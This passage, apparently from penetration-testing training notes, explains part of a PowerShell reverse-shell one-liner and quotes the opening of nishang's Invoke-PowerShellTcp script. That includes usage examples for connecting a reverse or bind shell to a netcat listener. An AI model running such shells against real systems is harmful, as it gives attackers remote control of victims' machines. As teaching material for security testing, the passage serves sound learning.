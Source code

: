 Sets/evaluates the variable `$sendbyte` equal to (`=`) the ASCII encoded byte stream that will use a TCP client to initiate a PowerShell session with a Netcat listener running on the attack box.

<mark style="color:orange;">**Terminate TCP Connection**</mark>

```powershell
$client.Close()"
```

This is the [TcpClient.Close](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.close?view=net-5.0) method that will be used when the connection is terminated.

The one-liner we just examined together can also be executed in the form of a PowerShell script (`.ps1`). We can see an example of this by viewing the source code below. This source code is part of the [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) project:

{% code fullWidth="true" %}
```powershell
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 
.DESCRIPTION
This script is able to connect to a standard Netcat listening on a port when using the -Reverse switch. 
Also, a standard Netcat can connect to this script Bind to a specific port.
The script is derived from Powerfun written by Ben Turner & Dave Hardy
.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.
.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 
.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
```
